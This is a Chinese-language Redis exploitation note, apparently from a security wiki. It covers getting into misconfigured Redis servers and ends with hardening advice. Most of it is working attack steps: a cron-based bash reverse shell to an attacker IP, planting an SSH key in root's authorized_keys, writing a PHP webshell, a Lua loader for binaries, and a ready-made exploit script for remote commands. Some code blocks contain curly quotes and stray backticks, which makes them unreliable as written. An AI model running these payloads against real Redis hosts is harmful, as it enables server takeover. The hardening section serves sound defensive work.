

# redis总结

## 一、漏洞简介

redis总结

## 二、影响范围

## 三、复现过程

#### 攻击的几种方法

参考:
http://www.cnblogs.com/xiaozi/p/7568272.html
https://evi1cg.me/archives/hackredis.html

##### (1).利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell

先在自己的服务器上监听一个端口

nc -lvnp 7999

然后执行命令:

```
root@kali:~## redis-cli -h 192.168.63.130
      192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
      192.168.63.130:6379> config set dir /var/spool/cron/
      192.168.63.130:6379> config set dbfilename root
      192.168.63.130:6379> save 
```

**ps:此处使用bash反弹shell，也可使用其他方法**

##### (2).写ssh-keygen公钥然后使用私钥登陆

在以下条件下，可以利用此方法

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
首先在本地生成一对密钥：

```
root@kali:~/.ssh## ssh-keygen -t rsa 
```

然后redis执行命令：

```
ssh-keygen -t rsa

(echo -e “\n\n”; cat id_rsa.pub; echo -e “\n\n”) > foo.txt

cat foo.txt | redis-cli -h x.x.x.x -x set crackit

redis-cli -h x.x.x.x

> config set dir /root/.ssh/

> config get dir

> config set dbfilename “authorized_keys”

> save `ssh -i id_rsa root@x.x.x.x` 
```

或者如下

```
192.168.63.130:6379> config set dir /root/.ssh/
192.168.63.130:6379> config set dbfilename authorized_keys
192.168.63.130:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKfxu58CbSzYFgd4BOjUyNSpbgpkzBHrEwH2/XD7rvaLFUzBIsciw9QoMS2ZPCbjO0IZL50Rro1478kguUuvQrv/RE/eHYgoav/k6OeyFtNQE4LYy5lezmOFKviUGgWtUrra407cGLgeorsAykL+lLExfaaG/d4TwrIj1sRz4/GeiWG6BZ8uQND9G+Vqbx/+zi3tRAz2PWBb45UXATQPvglwaNpGXVpI0dxV3j+kiaFyqjHAv541b/ElEdiaSadPjuW6iNGCRaTLHsQNToDgu92oAE2MLaEmOWuQz1gi90o6W1WfZfzmS8OJHX/GJBXAMgEgJhXRy2eRhSpbxaIVgx root@kali\n\n\n" `192.168.63.130:6379> save` 
```

##### (3).往web物理路径写webshell

当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell

```
192.168.63.130:6379> config set dir /var/www/html/
      192.168.63.130:6379> config set dbfilename shell.php
      192.168.63.130:6379> set x "<?php phpinfo();?>"
      192.168.63.130:6379> save 
```

即可将shell写入web目录(web目录根据实际情况

##### (4).写二进制文件，利用dns、icmp等协议上线（tcp协议不能出网）

From:http://www.00theway.org/2017/03/27/redis_exp/
写二进制文件跟前边有所不同，原因在于使用RDB方式备份redis数据库是默认情况下会对文件进行压缩，上传的二进制文件也会被压缩，而且文件前后存在脏数据，因此需要将默认压缩关闭，并且通过计划任务调用python清洗脏数据。

```
local function hex2bin(hexstr)
    local str = ""
    for i = 1, string.len(hexstr) - 1, 2 do
        local doublebytestr = string.sub(hexstr, i, i+1);
        local n = tonumber(doublebytestr, 16);
        if 0 == n then
            str = str .. '\00'
        else
            str = str .. string.format("%c", n)
        end
    end
    return str
end

local dir = redis.call(‘config’,‘get’,‘dir’)

redis.call(‘config’,‘set’,‘dir’,’/tmp/’)

local dbfilename = redis.call(‘config’,‘get’,‘dbfilename’)

redis.call(‘config’,‘set’,‘dbfilename’,‘t’)

local rdbcompress = redis.call(‘config’,‘get’,‘rdbcompression’)

redis.call(‘config’,‘set’,‘rdbcompression’,‘no’)

redis.call(‘flushall’) `local data = ‘1a2b3c4d5e6f1223344556677890aa’

redis.call(‘set’,‘data’,hex2bin(‘0a7c7c7c’…data…‘7c7c7c0a’))

local rst = {}

rst[1] = ‘server default config’

rst[2] = ‘dir:’…dir[2]

rst[3] = ‘dbfilename:’…dbfilename[2]

rst[4] = ‘rdbcompression:’…rdbcompress[2]

return rst

保存以上代码为a.lua，变量data保存的是程序的16进制编码，执行` 
```

```
redis-cli --eval a.lua -h *.*.*.*
```

由于redis不支持在lua中调用save因此需要手动执行save操作,并且删除key data，恢复dir等。

```
redis-cli save -h *.*.*.*
redis-cli config set dir *** -h *.*.*.*
redis-cli config set dbfilename *** -h *.*.*.*
redis-cli config set rdbcompression * -h *.*.*.* 
```

目前写入的文件前后是存在垃圾数据的，下一步通过写计划任务调用python或者系统命令提取出二进制文件（写文件之在数据前后加入了 |||作为提取最终文件的标识）。

```
*/1 * * * * python -c 'open("/tmp/rst","a+").write(open("/tmp/t").read().split("|||")[1])'

```

/tmp/rst为最终上传的文件。

##### (5).傻瓜式python脚本

From:https://raw.githubusercontent.com/00theway/redis_exp/master/redis_exp.py

```
执行命令
需要root权限，每次添加计划任务前先获取服务器时间，然后根据获取的时间设置执行计划任务的时间，确保命令被执行一次，避免多次执行引发服务器异常。
    python redis_exp.py --host *.*.*.* -c 'id'

上传文件

上传携带脏数据的文件不需要root权限，上传二进制文件需要root权限，先上传带有脏数据的文件，在文件前后插入特征字符串，然后添加计划任务截取数据

python redis_exp.py --host *.*.*.* -l /data/payload.py -r /tmp/p.py

暴力猜解目录

不需要root权限，利用 config set dir ‘xx’ 报错进行目录猜解

python redis_exp.py --host *.*.*.* -f p.txt

可以通过-p参数更改默认端口，-t参数更改等待时间 
```




##### (6).批量验证

From:https://github.com/Ridter/hackredis

##### 3.防护措施

###### 1.禁止一些高危命令

修改 redis.conf 文件，添加以下内容，来禁用远程修改 DB 文件地址

```
rename-command FLUSHALL ""
      rename-command CONFIG   ""
      rename-command EVAL     "" 
```

###### 2.以低权限运行 Redis 服务

为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆

```
$ groupadd -r redis && useradd -r -g redis redis 
```

###### 3.为 Redis 添加密码验证

修改 redis.conf 文件，添加

```
requirepass mypassword 
```

###### 4.禁止外网访问 Redis

修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用

```
bind 127.0.0.1 
```

###### 5.保证 authorized_keys 文件的安全

为了保证安全，您应该阻止其他用户添加新的公钥。
将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：

```
## chmod 400 ~/.ssh/authorized_keys 
```

为保证 authorized_keys 的权限不会被改掉，您还需要设置该文件的 immutable 位权限：

```
## chattr +i ~/.ssh/authorized_keys 
```

然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 位权限：

```
## chattr +i ~/.ssh 
```

注意: 如果需要添加新的公钥，需要移除 authorized_keys 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。

###### 6.修改默认端口

指定Redis监听端口，默认端口为6379，作者在自己的一篇博文中解释了为什么选用6379作为默认端口，因为6379在手机按键上MERZ对应的号码，而MERZ取自意大利歌女Alessia Merz的名字

```
## redis-server --port 6380 
```

###### 7.防火墙

```
// accept
## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 6379 -j ACCEPT
## iptables -A INPUT -p udp -s 127.0.0.1 --dport 6379 -j ACCEPT

// drop

## iptables -I INPUT -p tcp --dport 6379 -j DROP

## iptables -I INPUT -p udp --dport 6379 -j DROP

// 保存规则并重启 iptables

## service iptables save

## service iptables restart 
```